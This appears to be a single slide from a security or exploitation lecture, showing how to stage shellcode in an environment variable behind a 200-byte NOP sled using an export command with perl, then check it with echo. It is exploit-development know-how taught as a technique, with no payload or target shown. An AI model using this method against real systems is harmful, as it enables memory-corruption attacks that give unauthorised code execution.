

# Environment Variables :)
put the shellcode into environment variables, with a healthy nop-sled.
$ export SHELLCODE=$(perl -e 'print "\x90"x200')$(cat shellcode.bin)

check the result via:
$ echo $SHELLCODE